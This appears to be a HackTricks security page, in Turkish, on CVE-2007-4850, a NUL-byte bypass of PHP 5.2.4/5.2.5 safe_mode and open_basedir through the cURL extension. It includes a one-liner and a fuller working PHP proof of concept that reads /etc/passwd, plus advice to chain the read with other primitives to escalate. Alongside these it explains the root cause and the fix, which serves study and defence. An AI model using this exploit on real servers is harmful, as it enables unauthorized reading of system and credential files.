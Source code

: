 # PHP 5.2.4 and 5.2.5 PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

Bu sayfa, belirli PHP 5.2.x build'lerinde cURL uzantısını kullanarak PHP safe_mode/open_basedir kontrollerini atlatmak için CTF'lerde/yerel-legacy-kurulumlarda hâlâ faydalı olabilen eski bir hileyi belgeliyor.

- Etkilenenler: PHP 5.2.4 ve 5.2.5, ext/curl etkin.
- Etki: safe_mode veya open_basedir kısıtlamalarına rağmen herhangi bir yerel dosyayı okuma (doğrudan kod çalıştırma yok).
- ID: CVE-2007-4850.

From http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

Eğer safe_mode veya open_basedir aktifse ve cURL etkinse, aşağıdaki komut mevcut betiğin içeriğini döndürecektir:
```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```
## Daha açık PoC (keyfi dosya okuma)
```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
echo $resp; // should contain the target file
} else {
echo "cURL error: $err\n";
}
?>
```
Notlar:
- Gerçek bir NUL byte eklemek için çift tırnak veya chr(0) kullanın. Percent-encoding (%00) güvenilir çalışmaz.
- Bu bir dosya okuma primitive'idir. Mümkünse daha fazla yetki yükseltme için diğer primitive'lerle (log poisoning, session file inclusion, vb.) birleştirin.

## Bunun neden çalıştığı (kısa)

Zafiyet, PHP 5.2.4/5.2.5'in ext/curl içinde file:// URL'leri için safe_mode/open_basedir kontrollerini nasıl yaptığıyla ilgilidir. Kontrol URL'yi ayrıştırdı ve bir yol bileşenini doğruladı, ancak NUL-byte işleme nedeniyle doğrulayıcı libcurl tarafından gerçekte kullanılan dizgeden farklı bir dizgeyi doğruladı. Pratikte, doğrulayıcı NUL'den sonraki yolu onaylayabilirdi; oysa libcurl konteyner olarak NUL'den öncesini URL olarak kullanıyordu; bu da NUL byte'tan sonra yerleştirilen dosyanın okunmasına yol açan bir bypass'a izin veriyordu. Ayrıntılar için orijinal analize ve curl/interface.c içindeki etkilenen makroya bakın. [CVE-2007-4850].

## Kısıtlar ve düzeltmeler

- ext/curl içindeki ayrıştırma/doğrulamayı düzelterek sonraki 5.2.x sürümlerinde (ör. dağıtımlarda 5.2.6'ya yamalanmış) giderildi.
- Sadece çok eski PHP dağıtımlarını etkiler; safe_mode PHP 5.4'te kaldırıldı ve modern build'ler bu davranışı göstermez.

## Ayrıca bakınız

Diğer disable_functions/open_basedir bypass'ları ve modern teknikler burada toplanmıştır:

{{#ref}}
README.md
{{#endref}}



## Referanslar

- Ubuntu CVE kaydı, patch yönlendirmeleri ve etkilenen sürümler: https://ubuntu.com/security/CVE-2007-4850
- Kod bağlamı içeren teknik yazı (cxsecurity): http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
